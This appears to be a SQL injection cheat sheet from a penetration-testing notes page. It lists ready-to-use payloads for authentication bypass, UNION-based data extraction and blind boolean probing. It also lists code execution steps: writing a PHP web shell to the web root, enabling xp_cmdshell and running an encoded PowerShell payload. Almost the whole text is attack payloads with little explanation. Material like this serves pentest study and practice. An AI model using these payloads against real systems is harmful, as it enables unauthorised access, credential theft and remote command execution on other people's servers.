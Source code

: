 #### Authentication Bypass

```
#Standard auth bypass will log in as the first user in the database table.
' OR 1=1 -- //

#Select all data from table users.
' OR 1=1 in (SELECT * FROM users) -- //

#Select all passwords from table users.
' or 1=1 in (SELECT password FROM users) -- //

#Select password from username admin. 
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
#### Union Injection
1. Enter SQLi characters to try and get a server error indicating a potential vulnerability.
2. Enter a UNION SQLi payload to try and get the server to respond with an error indicating the columns selected is wrong.
3. Continue to add a NULL column to each payload until it is accepted by the server with no error response.

```
#Identify how many columns returned in query.
'UNION SELECT NULL-- //
'UNION SELECT NULL,NULL-- //
'UNION SELECT NULL,NULL,NULL-- //

#Identify which columns can return string data.
'UNION SELECT 'a',NULL,NULL,NULL-- //

#Extract data.
'UNION SELECT <column>, <column>, FROM table -- //
```
#### Code Execution

```
#Upload a shell.
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

#Enable xp_cmdshell on sql server 2005
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

#Execute Commands
' EXEC xp_cmdshell 'powershell -E <base64_payload>'; --
' EXEC xp_cmdshell "net user";
```

##### Blind Boolean SQLi
```
1=1
1=2
1=1+AND+1=1
1=1+AND+1=2

#can we do sub queries?
1=1+AND(1=1)AND+1=1
1=1+AND(1=2)AND+1=1

#strings ok?
1=1+AND('1'='1')AND+1=1

#accepts wild card? (%25 = % encoded)
1=1+AND('1'+like+'%25')AND+1=1

#check reserved key words / columns 
1=1+AND(CURRENT_USER+like+'%25')AND+1=1

#Start to bruteforce alphabet to get the first value in that column use lower case and upper case as well as numbers and underscore.
1=1+AND(CURRENT_USER+like+'$intruder$%25')AND+1=1 
```